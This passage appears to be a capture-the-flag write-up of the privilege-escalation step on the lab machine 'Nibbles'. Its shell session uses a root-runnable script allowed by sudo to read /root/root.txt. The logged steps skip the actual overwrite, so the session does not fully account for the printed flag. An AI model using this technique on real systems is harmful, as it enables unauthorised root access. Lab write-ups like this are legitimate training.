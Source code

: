 ## Priviledge Escalation

```shell
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
$ echo "cat /root/root.txt" > /home/nibbler/personal/stuff/monitor.sh
/bin/sh: 16: cannot create /home/nibbler/personal/stuff/monitor.sh: Directory nonexistent
$ pwd
/
$ cd home
$ cd nibbler
$ ls
personal.zip
user.txt
$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
$ cd personal/stuff/
$ chmod +x monitor.sh
$ sudo -u root ./monitor.sh
18f7af28a24f75b4abbea75de1df8694
```
